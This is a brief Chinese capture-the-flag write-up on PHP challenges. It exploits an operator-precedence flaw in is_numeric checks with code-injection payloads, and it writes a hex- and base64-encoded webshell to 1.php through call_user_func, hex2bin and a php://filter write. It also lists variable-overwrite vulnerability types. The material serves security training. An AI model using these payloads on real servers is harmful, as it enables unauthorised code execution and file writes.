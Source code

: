 ```php
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3)
这里是 先将 $v0=is_numeric($v1) 最后再进行 and
```
payload
```php
方法一:
?v1=1&v2=var_dump($ctfshow)&v3=;
方法二:
?v1=1&v2=echo new ReflectionClass&v3=;
```
<a href="https://www.php.net/manual/zh/function.file-put-contents.php">file_put_contents（）函数</a></br>
<a href="https://www.php.net/manual/zh/function.call-user-func.php">call_user_func（）函数</a></br>
<a href="https://www.php.net/manual/zh/function.substr.php">substr（）函数</a></br>
<a href="https://www.runoob.com/php/func-string-hex2bin.html">hex2bin（）函数</a>

```php
 <?php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?>
```
分析代码：
```php
v1作为 call_user_func的第一个参数。
v3作为 file_put_contents的文件名。
call_user_func(v1,v1,v1,s);返回结果作为file_put_contents的第二参数
```
payload
```
get 
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php 
post: v1=hex2bin
```
<a href="https://blog.csdn.net/qq_45521281/article/details/105849770">变量覆盖漏洞总结</a>
```
1. extract()变量覆盖
2. $$导致的变量覆盖问题（重点）
3. parse_str()导致的变量覆盖
```
